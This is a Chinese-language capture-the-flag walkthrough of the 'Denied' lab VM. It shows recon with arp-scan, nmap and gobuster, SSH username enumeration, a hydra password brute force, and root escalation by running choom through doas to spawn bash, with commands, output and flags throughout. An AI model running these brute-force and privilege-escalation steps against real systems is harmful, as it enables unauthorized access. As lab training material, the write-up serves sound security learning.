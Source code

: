 # 1. 信息收集 - 目标锁定！

![image-20250519113211432](https://7r1umph.top/image/20250519113211569.webp)

这靶机纯复现，因为我都知道它口在哪了。不过，流程还是要走一遍的嘛！

### 1. 信息收集 - 目标锁定！

老一套，先用 `arp-scan` 看看内网里谁是目标。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ sudo arp-scan -l        
[sudo] password for kali: 
Interface: eth0, type: EN10MB, MAC: 00:0c:29:af:40:3a, IPv4: 192.168.205.206
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.205.1   00:50:56:c0:00:08       VMware, Inc.
192.168.205.2   00:50:56:f4:ef:6f       VMware, Inc.
192.168.205.217 08:00:27:63:80:7c       PCS Systemtechnik GmbH # <--- 就是你了！
192.168.205.254 00:50:56:ed:bd:56       VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.975 seconds (129.62 hosts/sec). 4 responded
```
IP地址 `192.168.205.217` 到手，接着 `nmap` 大法伺候，看看开了些啥端口，跑了啥服务。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ nmap -p22,80,8080 -sV 192.168.205.217
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-18 23:33 EDT
Nmap scan report for denied.nyx (192.168.205.217)
Host is up (0.00036s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
8080/tcp open  http    Apache httpd 2.4.62 ((Debian))
MAC Address: 08:00:27:63:80:7C (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.44 seconds
```
开了 22 (SSH), 80 (HTTP), 还有个 8080 (也是HTTP)。都是 Apache 2.4.62，SSH 版本是 OpenSSH 9.2p1。

### 2. Web 服务探测 - Apache 欢迎您！

先 `curl` 一下 80 和 8080 端口看看。两个端口都是 Apache 的默认欢迎页面，一模一样。看来没啥特别的东西。
接着上目录爆破，用 `gobuster` 扫了一圈，换了好几个字典，包括 `directory-list-2.3-medium.txt`, `directory-list-2.3-big.txt`，甚至我自己改的倒序 `hbig.txt`，还试了各种常见的扩展名。

```bash
gobuster dir -u http://192.168.205.217:80 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,txt,html,zip 
gobuster dir -u http://192.168.205.217:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,txt,html,zip 
gobuster dir -u http://192.168.205.217:80 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt  -x php,txt,html,zip 
gobuster dir -u http://192.168.205.217:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt  -x php,txt,html,zip # Note: Log had 80, but context implies 8080
gobuster dir -u http://192.168.205.217:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/hbig.txt -x php,txt,html,zip,bak,old,conf,cgi,sh,log,.htaccess
```
结果是...啥也没扫出来。Web 这边看来是条死胡同。还试了下DNS子域名爆破，也没啥发现。

```bash
gobuster dns -d http://disguise.hmv/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

### 3. SSH 突破 - 用户名枚举与爆破

Web 没戏，那就只能从 SSH 下手了。先试试 `root` 用户。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ ssh root@192.168.205.217
root@192.168.205.217: Permission denied (publickey).
```
提示 `Permission denied (publickey)`，看来 `root` 用户是禁止密码登录，强制用密钥。

这时候我想起了昨天看到的 ll04567 大佬的思路...
![image-20250519113954961](https://7r1umph.top/image/20250519113955108.webp)
害，昨天为什么要看到，没看到就可以自己摸索一下了。既然是复现，那就按这个思路走。
大佬的思路是存在一个可以密码登录的普通用户。用 `seclists` 里的用户名字典尝试枚举一下：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ for i in $(cat /usr/share/seclists/Usernames/Names/names.txt);do ssh $i@192.168.205.217 ;done
# ... (大量尝试) ...
akira@192.168.205.217's password: 
```
(这里手动 `Ctrl+C` 停止枚举)
枚举到用户 `akira` 的时候，SSH 客户端提示输入密码，而不是像其他用户那样直接 `Permission denied (publickey)`。这说明 `akira` 用户存在，并且允许密码登录！

找到用户名 `akira`，接下来就是祭出 `hydra` 大法爆破密码了。用了一个常用的密码字典 `5000q.txt`。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ hydra -l akira -P 5000q.txt ssh://192.168.205.217 -V -I          
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-18 23:41:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 5000 login tries (l:1/p:5000), ~313 tries per task
[DATA] attacking ssh://192.168.205.217:22/
[ATTEMPT] target 192.168.205.217 - login "akira" - pass "123456" - 1 of 5000 [child 0] (0/0)
# ... (大量尝试输出) ...
[ATTEMPT] target 192.168.205.217 - login "akira" - pass "shakira" - 568 of 5003 [child 7] (0/3)
[22][ssh] host: 192.168.205.217   login: akira   password: shakira
^C                                                                                                                                                                                   
```
Bingo! `hydra` 成功爆出密码 `akira:shakira`。

赶紧登录！
```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ ssh akira@192.168.205.217 
akira@192.168.205.217's password: shakira
akira@denied:~$ id
uid=1000(akira) gid=1000(akira) grupos=1000(akira)
```
成功以 `akira` 用户登录系统！

### 4. 权限提升 - akira -> root

拿到 `akira` 的 shell，先看看家目录有啥，顺便把 `user.txt` 读了。

```bash
akira@denied:~$ ls -la
total 28
drwx------ 3 akira akira 4096 may 18 13:03 .
drwxr-xr-x 3 root  root  4096 may 18 11:25 ..
lrwxrwxrwx 1 root  root     9 nov 15  2023 .bash_history -> /dev/null
-rw-r--r-- 1 akira akira  220 nov 15  2023 .bash_logout
-rw-r--r-- 1 akira akira 3526 nov 15  2023 .bashrc
drwxr-xr-x 3 akira akira 4096 may 18 11:41 .local
-rw-r--r-- 1 akira akira  807 nov 15  2023 .profile
-r-------- 1 akira akira   33 may 18 11:41 user.txt
akira@denied:~$ cat user.txt 
6acfb2803973dacc95152a873ba79255
```
User flag到手！接下来看看能不能提权到 `root`。
先试试 `sudo -l`：
```bash
akira@denied:~$ sudo -l
-bash: sudo: orden no encontrada
```
“orden no encontrada”，西班牙语的 “command not found”。看来系统里没有 `sudo`，或者 `akira` 用户的 `PATH` 没配好。

那就找找有没有 SUID 程序可以利用。
```bash
akira@denied:~$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/mount
/usr/bin/chsh
/usr/bin/doas  # <--- 这个看起来不一般！
/usr/bin/passwd
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/newgrp
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```
发现了一个 `/usr/bin/doas`，这玩意儿是 `sudo` 的一个轻量级替代品。有戏！
看看 `doas` 能不能直接用：
```bash
akira@denied:/opt$ /usr/bin/doas -h
/usr/bin/doas: invalid option -- 'h'
usage: doas [-Lns] [-C config] [-u user] command [args]
akira@denied:/opt$ /usr/bin/doas -u root bash
doas: Operation not permitted
```
直接用 `doas -u root bash` 提示 “Operation not permitted”。看来 `akira` 用户不能随便用 `doas` 执行所有命令。
那它到底能用 `doas` 执行啥呢？得想办法枚举一下 `/etc/doas.conf`或者暴力测试 `/usr/bin` 下的命令。结果发现`/etc/doas.conf`不给看，那就只可以暴力测试
根据日志，是通过遍历测试发现 `/usr/bin/choom` 可以用 `doas` 执行：

```bash
akira@denied:/opt$ for i in $(ls /usr/bin); do doas -u root /usr/bin/$i 2>&1 | grep -v "doas: Operation not permitted";done
choom: no se ha especificado ni PID ni ORDEN
Escriba 'choom --help' para obtener más información.
akira@denied:/opt$ /usr/bin/doas -u root /usr/bin/choom --help

Modo de empleo:
 choom [opciones] -p pid
 choom [opciones] -n número -p pid
 choom [opciones] -n número [--] orden [args...]]  # <--- 关键在这！

Muestra y ajusta la puntuación de matador OOM.

Opciones:
 -n, --adjust <num>     especifica el valor de ajuste de puntuación
 -p, --pid <num>        ID de proceso

 -h, --help             muestra esta ayuda
 -V, --version          muestra la versión
```
`choom` 的帮助信息里写着可以用 `-n <número> [--] orden [args...]` 的方式来执行一个命令！既然 `doas` 允许 `akira` 以 `root` 权限执行 `choom`，那我们就可以通过 `choom` 来间接以 `root` 权限执行任意命令了！

利用这个特性，让 `choom` 执行 `/bin/bash -p` (`-p` 参数是为了让 bash 保持有效用户ID为 root)。
```bash
akira@denied:/opt$ /usr/bin/doas -u root /usr/bin/choom -n -1000-p 0 bash
root@denied:/opt# id
uid=0(root) gid=0(root) grupos=0(root)
```
Boom! `uid=0(root)`，成功拿到 root 权限！

### 5. 收获 Root Flag

拿到 root shell，最后一步当然是读取 `/root/root.txt`。
```bash
root@denied:/opt# cat /root/root.txt 
ea2118e462426513a247964eb8320c27
```
Root flag到手！Denied 靶机，卒！
